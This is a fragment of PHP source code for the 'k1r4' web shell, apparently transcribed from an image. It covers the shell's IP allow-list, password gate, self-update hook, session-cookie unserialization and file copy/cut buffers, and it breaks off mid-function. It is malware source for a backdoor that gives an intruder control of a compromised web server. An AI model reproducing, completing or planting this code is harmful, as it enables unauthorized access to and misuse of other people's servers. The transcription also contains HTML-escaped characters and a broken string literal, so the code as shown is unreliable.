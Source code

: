 @$f = $_REQUEST["f"];
@extract($_REQUEST["k1r4cook"]);

//END CONFIGURATION


// \/Next code isn't for editing\/
@set_time_limit(0);
$tmp = array();
foreach($host_allow as $k=&gt;$v) {$tmp[] = str_replace("\*",".*",preg_quote($v));}
$s = "!^(".implode("|",$tmp).")$!i";
if (!preg_match($s,getenv("REMOTE_ADDR")) and !preg_match($s,gethostbyaddr(getenv("REMOTE_ADDR")))) {exit("&lt;a href=\"http://google.com/releases/ckira\"&gt;k4L0ng666&lt;/a&gt;: Access Denied - your host (".getenv("REMOTE_ADDR").") not allow");}
if (!empty($login))
{
 if (empty($md5_pass)) {$md5_pass = md5($pass);}
 if (($_SERVER["PHP_AUTH_USER"] != $login) or (md5($_SERVER["PHP_AUTH_PW"]) != $md5_pass))
 {
  if (empty($login_txt)) {$login_txt = strip_tags(ereg_replace("&nbsp;|&lt;br&gt;"," ",$donated_html));}
  header("WWW-Authenticate: Basic realm=\"kira ".$shver.": ".$login_txt."\"");
  header("HTTP/1.0 401 Unauthorized");
  exit($accessdeniedmess);
 }
}
if ($act != "img")
{
$lastdir = realpath(".");
chdir($curdir);
if ($selfwrite or $updatenow) {@ob_clean(); k1r4_getupdate($selfwrite,1); exit;}
$sess_data = unserialize($_COOKIE["$sess_cookie"]);
if (!is_array($sess_data)) {$sess_data = array();}
if (!is_array($sess_data["copy"])) {$sess_data["copy"] = array();}
if (!is_array($sess_data["cut"])) {$sess_data["cut"] = array();}

$disablefunc = @ini_get("disable_functions");
if (!empty($disablefunc))
{
 $disablefunc = str_replace(" ","",$disablefunc);
 $disablefunc = explode(",",$disablefunc);
}

if (!function_exists("k1r4_buff_prepare"))
{
function k1r4_buff_prepare()
{
 global $sess_data;
 global $act;
 foreach($sess_data["copy"] as $k=&gt;$v) {$sess_data["copy"][$k] = str_replace("\",DIRECTORY_SEPARATOR,realpath($v));}
 foreach($sess_data["cut"] as $k=&gt;$v) {$sess_data["cut"][$k] = str_replace("\",DIRECTORY_SEPARATOR,realpath($v));}
 $sess_data["copy"] = array_unique($sess_data["copy"]);
 $sess_data["cut"] = array_unique($sess_data["cut"]);
 sort($sess_data["copy"]);
 sort($sess_data["cut"]);
 if ($act != "copy") {foreach($sess_data["cut"] as $k=&gt;$v) {if ($sess_data["copy"][$k] == $v) {unset($sess_data["copy"][$k]); }}}
 else {foreach($sess_data["copy"] as $k=&gt;$v) {if ($sess_data["cut"][$k] == $v) {unset($sess_data["cut"][$k]);}}}
}
}
k1r4_buff_prepare();
if (!function_exists("k1r4_sess_put"))
{